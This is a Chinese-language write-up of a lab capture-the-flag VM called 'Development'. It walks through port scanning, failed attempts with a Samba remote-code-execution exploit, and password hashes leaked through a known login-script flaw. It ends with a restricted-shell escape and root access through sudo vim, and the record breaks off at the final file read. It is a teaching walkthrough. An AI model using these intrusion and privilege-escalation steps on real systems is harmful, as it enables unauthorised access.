## 信息收集阶段
### Nmap
```
└─$ sudo nmap -A -sV -T4 -p- 192.168.146.74
Starting Nmap 7.91 ( https://nmap.org ) at 2022-07-14 11:33 HKT
Nmap scan report for 192.168.146.74
Host is up (0.00032s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:07:2b:2c:2c:4e:14:0a:e7:b3:63:46:c6:b3:ad:16 (RSA)
|_  256 24:6b:85:e3:ab:90:5c:ec:d5:83:49:54:cd:98:31:95 (ED25519)
113/tcp  open  ident?
|_auth-owners: oident
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
|_auth-owners: root
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
|_auth-owners: root
8080/tcp open  http-proxy  IIS 6.0
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Thu, 14 Jul 2022 03:34:05 GMT
|     Server: IIS 6.0
|     Last-Modified: Wed, 26 Dec 2018 01:55:41 GMT
|     ETag: "230-57de32091ad69"
|     Accept-Ranges: bytes
|     Content-Length: 560
|     Vary: Accept-Encoding
|     Connection: close
|     Content-Type: text/html
|     <html>
|     <head><title>DEVELOPMENT PORTAL. NOT FOR OUTSIDERS OR HACKERS!</title>
|     </head>
|     <body>
|     <p>Welcome to the Development Page.</p>
|     <br/>
|     <p>There are many projects in this box. View some of these projects at html_pages.</p>
|     <br/>
|     <p>WARNING! We are experimenting a host-based intrusion detection system. Report all false positives to patrick@goodtech.com.sg.</p>
|     <br/>
|     <br/>
|     <br/>
|     <hr>
|     <i>Powered by IIS 6.0</i>
|     </body>
|     <!-- Searching for development secret page... where could it be? -->
|     <!-- Patrick, Head of Development-->
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Thu, 14 Jul 2022 03:34:06 GMT
|     Server: IIS 6.0
|     Allow: GET,POST,OPTIONS,HEAD
|     Content-Length: 0
|     Connection: close
|     Content-Type: text/html
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Thu, 14 Jul 2022 03:34:06 GMT
|     Server: IIS 6.0
|     Content-Length: 293
|     Connection: close
|     Content-Type: text/html; charset=iso-8859-1
|     <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|     <html><head>
|     <title>400 Bad Request</title>
|     </head><body>
|     <h1>Bad Request</h1>
|     <p>Your browser sent a request that this server could not understand.<br />
|     </p>
|     <hr>
|     <address>IIS 6.0 Server at 192.168.146.74 Port 8080</address>
|_    </body></html>
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: IIS 6.0
|_http-title: DEVELOPMENT PORTAL. NOT FOR OUTSIDERS OR HACKERS!
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.91%I=7%D=7/14%Time=62CF8EA6%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,330,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2014\x20Jul\x202
SF:022\x2003:34:05\x20GMT\r\nServer:\x20IIS\x206\.0\r\nLast-Modified:\x20W
SF:ed,\x2026\x20Dec\x202018\x2001:55:41\x20GMT\r\nETag:\x20\"230-57de32091
SF:ad69\"\r\nAccept-Ranges:\x20bytes\r\nContent-Length:\x20560\r\nVary:\x2
SF:0Accept-Encoding\r\nConnection:\x20close\r\nContent-Type:\x20text/html\
SF:r\n\r\n<html>\r\n<head><title>DEVELOPMENT\x20PORTAL\.\x20NOT\x20FOR\x20
SF:OUTSIDERS\x20OR\x20HACKERS!</title>\r\n</head>\r\n<body>\r\n<p>Welcome\
SF:x20to\x20the\x20Development\x20Page\.</p>\r\n<br/>\r\n<p>There\x20are\x
SF:20many\x20projects\x20in\x20this\x20box\.\x20View\x20some\x20of\x20thes
SF:e\x20projects\x20at\x20html_pages\.</p>\r\n<br/>\r\n<p>WARNING!\x20We\x
SF:20are\x20experimenting\x20a\x20host-based\x20intrusion\x20detection\x20
SF:system\.\x20Report\x20all\x20false\x20positives\x20to\x20patrick@goodte
SF:ch\.com\.sg\.</p>\r\n<br/>\r\n<br/>\r\n<br/>\r\n<hr>\r\n<i>Powered\x20b
SF:y\x20IIS\x206\.0</i>\r\n</body>\r\n\r\n<!--\x20Searching\x20for\x20deve
SF:lopment\x20secret\x20page\.\.\.\x20where\x20could\x20it\x20be\?\x20-->\
SF:r\n\r\n<!--\x20Patrick,\x20Head\x20of\x20Development-->\r\n\r\n</html>\
SF:r\n")%r(HTTPOptions,A6,"HTTP/1\.1\x20200\x20OK\r\nDate:\x20Thu,\x2014\x
SF:20Jul\x202022\x2003:34:06\x20GMT\r\nServer:\x20IIS\x206\.0\r\nAllow:\x2
SF:0GET,POST,OPTIONS,HEAD\r\nContent-Length:\x200\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html\r\n\r\n")%r(RTSPRequest,1CC,"HTTP/1\.1\x2
SF:0400\x20Bad\x20Request\r\nDate:\x20Thu,\x2014\x20Jul\x202022\x2003:34:0
SF:6\x20GMT\r\nServer:\x20IIS\x206\.0\r\nContent-Length:\x20293\r\nConnect
SF:ion:\x20close\r\nContent-Type:\x20text/html;\x20charset=iso-8859-1\r\n\
SF:r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//IETF//DTD\x20HTML\x202\.0//EN\">
SF:\n<html><head>\n<title>400\x20Bad\x20Request</title>\n</head><body>\n<h
SF:1>Bad\x20Request</h1>\n<p>Your\x20browser\x20sent\x20a\x20request\x20th
SF:at\x20this\x20server\x20could\x20not\x20understand\.<br\x20/>\n</p>\n<h
SF:r>\n<address>IIS\x206\.0\x20Server\x20at\x20192\.168\.146\.74\x20Port\x
SF:208080</address>\n</body></html>\n");
MAC Address: 00:0C:29:92:E1:E7 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: DEVELOPMENT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 8s, deviation: 0s, median: 7s
|_nbstat: NetBIOS name: DEVELOPMENT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: development
|   NetBIOS computer name: DEVELOPMENT\x00
|   Domain name: \x00
|   FQDN: development
|_  System time: 2022-07-14T03:35:38+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-07-14T03:35:38
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.74

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.11 seconds
```
>可以看到开放了22, 113, 139, 445, 8080端口
先来尝试一下smb, 用searchsploit看一下有没有可用的漏洞
nmap下来的版本是3.x-4.x
```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ searchsploit samba   
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                          | osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                        | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)              | unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)                            | linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                        | linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit)                      | solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                                      | linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)                             | multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                                              | linux/remote/364.pl
Samba 3.3.12 (Linux x86) - 'chain_reply' Memory Corruption (Metasploit)                       | linux_x86/remote/16860.rb
Samba 3.3.5 - Format String / Security Bypass                                                 | linux/remote/33053.txt
Samba 3.4.16/3.5.14/3.6.4 - SetInformationPolicy AuditEventsInfo Heap Overflow (Metasploit)   | linux/remote/21850.rb
Samba 3.4.5 - Symlink Directory Traversal                                                     | linux/remote/33599.txt
Samba 3.4.5 - Symlink Directory Traversal (Metasploit)                                        | linux/remote/33598.rb
Samba 3.4.7/3.5.1 - Denial of Service                                                         | linux/dos/12588.txt
Samba 3.5.0 - Remote Code Execution                                                           | linux/remote/42060.py
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Module Load (Metasploit)  | linux/remote/42084.rb
Samba 3.5.11/3.6.3 - Remote Code Execution                                                    | linux/remote/37834.py
Samba 3.5.22/3.6.17/4.0.8 - nttrans Reply Integer Overflow                                    | linux/dos/27778.txt
Samba 4.5.2 - Symlink Race Permits Opening Files Outside Share Directory                      | multiple/remote/41740.txt
Samba < 2.0.5 - Local Overflow                                                                | linux/local/19428.c
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                             | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                                         | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                 | linux_x86/dos/36741.py

```
>先尝试几个linux的RCE
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ searchsploit -m linux/remote/37834.py  
  Exploit: Samba 3.5.11/3.6.3 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/37834
     Path: /usr/share/exploitdb/exploits/linux/remote/37834.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/aacai/Desktop/192.168.146.74/37834.py

```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py                                                        1 ⨯

  {*} samba 3.x remote root by kd(eax)@ireleaseyourohdayfuckyou {*}

  usage: 37834.py <targethost> <targetport> <myip> <myport> <target>

  targets:
    00) samba_3.6.3-debian6
    01) samba_3.5.11~dfsg-1ubuntu2.1_i386 (oneiric)
    02) target_finder (hardcode correct system addr)

                                                                                
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 139 192.168.146.63 4444 01            255 ⨯
{+} TRYING EIP=0x00000b20 OFFSET=0x000011d0Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
                                                                                
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 139 192.168.146.63 4444 00                                                  1 ⨯
{+} TRYING EIP=0xb6d003c0 OFFSET=0x00009148Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
                                                                                                                    
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 139 192.168.146.63 4444 02                                                  1 ⨯
{+} TRYING EIP=0xb6d1a3c0 OFFSET=0x00000000Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
                                                                                                                    
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 445 192.168.146.63 4444 02                                                  1 ⨯
{+} TRYING EIP=0xb6d1a3c0 OFFSET=0x00000000Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
                                                                                                                    
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 445 192.168.146.63 4444 01                                                  1 ⨯
{+} TRYING EIP=0x00000b20 OFFSET=0x000011d0Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
                                                                                                                    
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ python2 37834.py 192.168.146.74 445 192.168.146.63 4444 00                                                  1 ⨯
{+} TRYING EIP=0xb6d003c0 OFFSET=0x00009148Traceback (most recent call last):
  File "37834.py", line 247, in <module>
    exploit(sys.argv[1], int(sys.argv[2]), sys.argv[3], sys.argv[4], target)
  File "37834.py", line 141, in exploit
    fid = hexlify(pkt_res[0x2a] + pkt_res[0x2b])
IndexError: string index out of range
```
> 好吧, 并没有结果, 那从web端看看有什么东西


> 一个普普通通的web界面
用nikto和direseach扫描一下
```
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ dirsearch -u http://192.168.146.74:8080                   

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Output File: /home/aacai/.dirsearch/reports/192.168.146.74-8080/_22-07-14_12-14-08.txt

Error Log: /home/aacai/.dirsearch/logs/errors-22-07-14_12-14-08.log

Target: http://192.168.146.74:8080/

Cannot connect to: 192.168.146.74:8080

Task Completed
                                                                                                                    
┌──(aacai㉿kali)-[~/Desktop/192.168.146.74]
└─$ 

─$ nikto -h  192.168.146.74:8080 
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.146.74
+ Target Hostname:    192.168.146.74
+ Target Port:        8080
+ Start Time:         2022-07-14 12:08:36 (GMT8)
---------------------------------------------------------------------------
+ Server: IIS 6.0
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 230, size: 57de32091ad69, mtime: gzip


```
> 竟然扫不出来...
> 后来发现我用dirsearch一扫.. 这个web服务就down了
> 不知道是我的问题还是这个机器的问题
关注一下页面上的信息


>这里说明了有很多项目在html_pages这个目录里面, 访问一下


>竟然能直接看到系统文件
看一下主页的源代码


>这里提示让我们找一个development.html的文件, 这不就是刚刚我们在html_pages里面看到的嘛
走着


>再看一下源代码


>他要我们访问./developmentsecretpage


>访问了之后到了一个新的目录
点击Patrick's那个a标签的链接, 我被跳转到了patrick.php这个php页面


>默认情况下我们是在他的用户里面的, 让我们退出试试


>然后我尝试了一下用户名admin, 密码'
然后就直接报错了


>这里有一个slogin_lib.inc.php报错了, 那我们去google看看有没有相关信息

>头一个就是个exploit...

>查看一下exploit的内容


>这里面写到有一个RCE和一个slog_users.txt的文件
先看看这个txt文件里面有什么

>....拿到管理员密码

丢去破解一下md5试试

```
admin, 3cb1d13bb83f***********43d3a0eb
intern, 4a8a2b374f463b*******363b81 1234********654321
patrick, 87e6d56ce79af********3d0579e P***25
qiu, ee64497098d0926d********31f98  	**u

```
只拿到了三个用户名的hash值

>然后去连接一下ssh
```
└─$ ssh intern@192.168.146.74                                                                                               1 ⨯
intern@192.168.146.74's password: 
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jul 14 04:59:13 UTC 2022

  System load:  0.01               Processes:            175
  Usage of /:   31.2% of 19.51GB   Users logged in:      0
  Memory usage: 32%                IP address for ens33: 192.168.146.74
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

175 packages can be updated.
50 updates are security updates.

New release '20.04.4 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


Last login: Thu Jul 14 04:58:49 2022 from 192.168.146.63
Congratulations! You tried harder!
Welcome to Development!
Type '?' or 'help' to get the list of allowed commands
intern:~$ echo os.system('/bin/bash')
intern@development:~$ 

```
>连接上来了
```
intern@development:~$ id
uid=1002(intern) gid=1006(intern) groups=1006(intern)
intern@development:~$ whoami
intern
intern@development:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:92:e1:e7 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.74/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 62043sec preferred_lft 62043sec
    inet6 fe80::20c:29ff:fe92:e1e7/64 scope link 
       valid_lft forever preferred_lft forever
intern@development:~$ 

```
>查看一下这个用户下的文件
```
intern@development:~$ ls -al
total 36
drwxr-xr-x 6 intern intern 4096 Jul 14 04:59 .
drwxr-xr-x 5 root   root   4096 Jun 14  2018 ..
drwxrwxrwx 9 intern intern 4096 Jul 16  2018 access
drwx------ 2 intern intern 4096 Jul 16  2018 .cache
drwx------ 3 intern intern 4096 Jul 16  2018 .gnupg
-rw------- 1 intern intern   32 Jul 14 04:59 .lhistory
drwxrwxr-x 3 intern intern 4096 Jul 15  2018 .local
-rw-r--r-- 1 intern intern   46 Dec 26  2018 local.txt
-rw-r--r-- 1 intern intern  299 Dec 26  2018 work.txt
intern@development:~$ 
intern@development:~$ cat work.txt 
1.	Tell Patrick that shoutbox is not working. We need to revert to the old method to update David about shoutbox. For new, we will use the old director's landing page.

2.	Patrick's start of the third year in this company!

3.	Attend the meeting to discuss if password policy should be relooked at.
intern@development:~$ cat local.txt 
Congratulations on obtaining a user shell. :)
intern@development:~$ 

```
> 看起来Patrick比较重要, su过去看看
```
intern@development:~$ su patrick
Password: 
patrick@development:/home/intern$ ls
access  local.txt  work.txt
patrick@development:/home/intern$ id
uid=1001(patrick) gid=1005(patrick) groups=1005(patrick),108(lxd)
patrick@development:/home/intern$ sudo -l
Matching Defaults entries for patrick on development:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User patrick may run the following commands on development:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /bin/nano
patrick@development:/home/intern$ 

```
>卧*, patrick有两个文件的sudu权限
这里来个小知识, 有sudo权限的可以直接用:shell到root
```
patrick@development:/home/intern$ sudo vim
:
root@development:/home/intern# id
uid=0(root) gid=0(root) groups=0(root)
root@development:/home/intern# whoami
root
root@development:/home/intern# ip ad
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:0c:29:92:e1:e7 brd ff:ff:ff:ff:ff:ff
    inet 192.168.146.74/24 brd 192.168.146.255 scope global dynamic ens33
       valid_lft 61820sec preferred_lft 61820sec
    inet6 fe80::20c:29ff:fe92:e1e7/64 scope link 
       valid_lft forever preferred_lft forever
root@development:/home/intern# 
root@development:/home/intern# cd 
root@development:~# ls
access.txt  password.txt
root@development:~# cat access.txt 
/-\/-\----/-\/-\
\-/\-/\--/\-/\-/

  ACCESS PANEL

/-\/-\/--\/-\/-\
\-/\-/----\-/\-/

LOGIN: _________
PASSWORD: ______

SORRY.
ACCESS DENIED.

YOU MUST...
TRY HARDER.
root@development:~# cat  password.txt 
